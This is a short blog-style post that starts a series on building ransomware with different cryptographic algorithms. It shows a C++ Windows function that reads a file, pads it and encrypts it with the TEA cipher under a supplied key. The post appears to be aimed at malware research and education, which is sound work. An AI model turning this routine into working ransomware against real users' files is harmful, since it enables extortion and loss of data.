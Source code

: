 With today's post I want to start a series of my new research, I will be developing different versions of the ransomware malware with different algorithms from cryptography.     

I will do this step by step, so perhaps I will post some things, tricks and techniques in a separate articles.     

### practical example

I'll go straight to a practical example, the logic of which is quite simple, encrypting one file and decrypting it.    

Encryption function:    

```cpp
void encryptFile(const char* inputFile, const char* outputFile, const char* teaKey) {
  HANDLE ifh = CreateFileA(inputFile, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  HANDLE ofh = CreateFileA(outputFile, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

  if (ifh == INVALID_HANDLE_VALUE || ofh == INVALID_HANDLE_VALUE) {
    printf("error opening file.\n");
    return;
  }

  LARGE_INTEGER fileSize;
  GetFileSizeEx(ifh, &fileSize);

  unsigned char* fileData = (unsigned char*)malloc(fileSize.LowPart);
  DWORD bytesRead;
  ReadFile(ifh, fileData, fileSize.LowPart, &bytesRead, NULL);

  unsigned char key[KEY_SIZE];
  memcpy(key, teaKey, KEY_SIZE);

  // calculate the padding size
  size_t paddingSize = (TEA_BLOCK_SIZE - (fileSize.LowPart % TEA_BLOCK_SIZE)) % TEA_BLOCK_SIZE;

  // pad the file data
  size_t paddedSize = fileSize.LowPart + paddingSize;
  unsigned char* paddedData = (unsigned char*)malloc(paddedSize);
  memcpy(paddedData, fileData, fileSize.LowPart);
  memset(paddedData + fileSize.LowPart, static_cast<char>(paddingSize), paddingSize);

  // encrypt the padded data
  for (size_t i = 0; i < paddedSize; i += TEA_BLOCK_SIZE) {
    tea_encrypt(paddedData + i, key);
  }

  // write the encrypted data to the output file
  DWORD bw;
  WriteFile(ofh, paddedData, paddedSize, &bw, NULL);

  printf("TEA encryption successful\n");

  CloseHandle(ifh);
  CloseHandle(ofh);
  free(fileData);
  free(paddedData);
}
```
